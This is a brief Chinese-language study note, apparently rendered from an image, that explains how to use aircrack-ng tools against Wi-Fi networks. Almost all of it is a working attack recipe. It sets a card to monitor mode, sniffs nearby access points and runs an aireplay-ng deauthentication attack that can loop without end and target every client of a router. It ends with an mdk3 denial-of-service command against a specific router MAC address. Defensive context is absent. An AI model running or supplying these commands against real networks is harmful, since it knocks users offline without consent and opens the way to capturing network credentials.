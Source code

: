 ```yaml
---
title: aircrack-ng使用简述
date: ''
modified: ''
category: 学习笔记
tags: []
---
```


## 1. 查看网卡
```
ifconfig
```
## 2. 打开网卡混杂模式
```
airmon-ng start wlan0
```
## 3. 嗅探附近AP
```
airodump-ng wlan0mon
```
## 4. 发动deauth攻击使目标重连
```
aireplay-ng -0 [攻击数量] –a [路由器MAC] -c [客户端MAC] wlan0mon
```
1. 攻击数量设为0为无限循环模式
2. 路口器MAC地址为必填项
3. 客户端MAC，可不填则对路由器所有的客户端进行攻击
## 5. 对路由器Dos攻击
```
sudo mdk3 mon0 a -a D4:83:04:9F:37:28
```